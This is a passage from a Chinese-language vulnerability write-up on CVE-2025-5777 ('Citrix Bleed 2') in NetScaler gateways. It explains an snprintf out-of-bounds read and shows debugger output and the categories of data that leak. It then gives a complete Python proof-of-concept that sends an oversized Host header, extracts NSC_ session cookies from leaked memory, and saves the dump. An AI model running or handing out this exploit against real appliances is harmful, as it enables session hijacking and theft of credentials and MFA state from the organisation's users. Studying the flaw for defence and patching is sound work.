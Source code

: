 > **Bug 点**：
> `snprintf` 返回“本应写入的长度”而非实际写入长度；若用户传入的 `Host` > 0x1800 - 常量段长度，则 `length` > `sizeof(buf)`。

### 3.3  运行时示意

```
buf: [-----XML-----][OOB][OOB][OOB]......            <- 0x1800 bytes limit
                          ↑
                被 ns_vpn_send_response 一并发出
```

GDB 断点演示（关键寄存器）：

```
RDI (dst) = 0x7fffa2e31800  // buf
RSI (len) = 0x00001e42      // length=7746 (>6144)
```

`read()` 结果显示后 1 600 字节来自未初始化内存，其中可见其他 SSL 会话的 Cookie 缓冲区。

### 3.4  泄露的数据类别

| 分类             | 示范片段（已脱敏）                                                |
| -------------- | -------------------------------------------------------- |
| Session Cookie | `Set-Cookie: NSC_USER=john.doe;NSC_TASS=abc123...`       |
| MFA/OTP Token  | `radius_state=0e2a9c6d1553...`                           |
| 其他请求体          | `<username>audituser</username><password>***</password>` |

---

## 0x04  PoC 实现

### 4.1  单文件 Python（15 行）

```python
#!/usr/bin/env python3
# CVE-2025-5777 Minimal PoC  (authorized testing ONLY)
import requests, sys, urllib3, re
urllib3.disable_warnings()

if len(sys.argv) != 2:
    exit(f"Usage: {sys.argv[0]} https://NSVIP")

url = sys.argv[1].rstrip("/") + "/nf/auth/startwebview.do"
hdr = {"Host": "A" * 0x6000}               # >0x1800 triggers
r = requests.get(url, headers=hdr, verify=False, timeout=10)

print("[+] HTTP", r.status_code, "bytes:", len(r.content))
hits = re.findall(br"(NSC_[A-Z]+=[^;]{10,})", r.content)
for h in hits: print("  Cookie leak ->", h.decode())

open("leak.bin", "wb").write(r.content)
print("[+] Saved leak.bin for offline grep.")
```


[1]: https://arcticwolf.com/resources/blog/cve-2025-5777/?utm_source=chatgpt.com "CVE-2025-5777 | Arctic Wolf"
[2]: https://www.tenable.com/blog/cve-2025-5777-cve-2025-6543-frequently-asked-questions-about-citrixbleed-2?utm_source=chatgpt.com "CVE-2025-5777, CVE-2025-6543: Frequently Asked Questions ..."
[3]: https://www.netscaler.com/blog/news/critical-security-updates-for-netscaler-netscaler-gateway-and-netscaler-console/?utm_source=chatgpt.com "Critical security updates for NetScaler, NetScaler Gateway, and ..."
[4]: https://reliaquest.com/blog/threat-spotlight-citrix-bleed-2-vulnerability-in-netscaler-adc-gateway-devices/?utm_source=chatgpt.com "Threat Spotlight: CVE-2025-5777: Citrix Bleed 2 Opens Old Wounds"
[5]: https://bishopfox.com/blog/netscaler-adc-and-gateway-advisory?utm_source=chatgpt.com "OOB Memory Read: Netscaler ADC and Gateway - Bishop Fox"
[6]: https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420&utm_source=chatgpt.com "CVE-2025-5777 - CITRIX | Support"
[7]: https://www.bleepingcomputer.com/news/security/citrix-bleed-2-flaw-now-believed-to-be-exploited-in-attacks/?utm_source=chatgpt.com "Citrix Bleed 2 flaw now believed to be exploited in attacks"
[8]: https://nvd.nist.gov/vuln/detail/CVE-2025-5777?utm_source=chatgpt.com "CVE-2025-5777 Detail - NVD"
